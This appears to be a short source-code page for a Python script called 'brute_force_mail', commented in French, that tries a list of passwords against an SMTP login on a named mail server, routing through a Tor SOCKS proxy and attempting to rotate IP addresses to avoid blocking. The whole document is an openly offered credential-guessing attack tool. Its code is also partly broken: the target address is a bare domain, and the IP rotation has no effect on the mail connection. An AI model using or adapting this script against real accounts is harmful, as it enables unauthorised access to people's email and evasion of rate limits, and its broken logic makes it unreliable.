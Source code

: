 # brute_force_mail
its an a brute force of e mail
import smtplib
from itertools import product
from itertools import cycle
import requests
import socket
import socks

# Configuration du proxy SOCKS
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, "127.0.0.1", 9050)  # Assure-toi d'avoir un proxy SOCKS5 configuré correctement
socket.socket = socks.socksocket

# Email cible
email_cible = 'exemple.com'

# Liste de mots de passe à tester
mots_de_passe = ['motdepasse1', 'motdepasse2', 'motdepasse3']  # Ajoute autant de mots de passe que tu veux

# Configuration du serveur SMTP
serveur_smtp = smtplib.SMTP('smtp.inficredits.fr', 587)
serveur_smtp.starttls()

# Générateur de cycles d'adresses IP
def changer_ip():
    ips = cycle(['1.2.3.4', '5.6.7.8', '9.10.11.12'])  # Ajoute tes propres adresses IP
    for ip in ips:
        yield ip

# Boucle de brute force
for mot_de_passe in mots_de_passe:
    try:
        # Changement d'IP
        adresse_ip = changer_ip()
        requests.get('http://icanhazip.com/', proxies={'http': 'socks5://' + next(adresse_ip), 'https': 'socks5://' + next(adresse_ip)})
        
        # Tentative de connexion SMTP
        serveur_smtp.login(email_cible, mot_de_passe)
        print(f'Succès ! Mot de passe trouvé : {mot_de_passe}')
        break
    except smtplib.SMTPAuthenticationError:
        print(f'Tentative échouée avec le mot de passe : {mot_de_passe}')
